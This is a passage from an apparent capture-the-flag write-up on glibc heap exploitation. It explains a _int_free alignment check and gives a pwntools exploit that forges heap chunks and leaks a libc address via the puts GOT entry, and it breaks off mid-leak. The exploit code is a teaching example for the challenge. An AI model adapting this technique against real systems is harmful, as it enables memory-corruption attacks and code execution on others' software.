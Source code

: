 You might wonder why I freed a forged heap chunk instead of freeing __malloc_hook-0x13.  
The reason is a security check performed in _int_free that ensures the freed pointer is aligned (divides by 8 with no remainder).  

```C
if (__builtin_expect ((uintptr_t) p > (uintptr_t) -size, 0)
      || __builtin_expect (misaligned_chunk (p), 0))
    malloc_printerr ("free(): invalid pointer");
```



Adding it all up we get the following exploit function.  

```python
def exploit(is_remote):
    global r, contacts_count
    
    if is_remote:
        r = remote(remote_ip, port)
        """ Identified the provided libc."""
        libc = ELF('/home/ubuntu/libc-database/db/libc6_2.23-0ubuntu10_amd64.so')
        one_gadget_offset = 0xf1147
        print 'remote'
    else:
        r = process(executable)
        libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
        print 'local'
    
    
    contacts_addr = 0x6020C0
    puts_got_entry = 0x602020
    
    fake_header_name = p64(0x0101010101010108)*3 + p64(0x81)[:-1]
    """ Add a contact and set it's bio. The bio is later used as a forged header of a heap chunk."""
    add_contact(fake_header_name)
    set_bio(fake_header_name, p64(0) + p64(0x81)[:-1])
    """ Add a contact and set it's bio to pass the following check when we allocate our forged chunk.
        The constrainst: ```if (__builtin_expect (chunksize_nomask (nextchunk) <= 2 * SIZE_SZ, 0)
                            || __builtin_expect (nextsize >= av->system_mem, 0))```."""
    add_contact('Y'*15)
    set_bio('Y'*15, (p64(0x81)*10)[:-1], 0x60)
    
    """ The following block does the following: 
            1. Create a new chunk with name the size of contact struct (0x10) and set its second qword to puts_got_entry.
            2. Set it's bio to a new chunk with the same size as the contact struct.
            3. Delete it. Free order is: name, bio, chunk
            4. Add a new chunk with name the size of the contact struct. new_chunk = previous_chunk, new_name = previous_bio.
            5. Add a new chunk. new_chunk = previous_name.
            6. The bio field is not zeroed so we will have the previous value stored in it as the current value."""
    first_leak_name = 'LeakLibc' + p64(puts_got_entry)[:-1] 
    add_contact(first_leak_name)
    set_bio(first_leak_name, '\x00'*15)
    del_contact(first_leak_name)
    add_contact('B'*15)
    add_contact('C'*15)
    
    """ Print the details of our contacts. The last contact we added will have its bio point to put_got_entry - libc address leak."""
    output = display().split('\n')[contacts_count - 1]
    leaked_puts_address = (output[output.find('- ') + len('- '):].rstrip('\n')).encode('hex')
```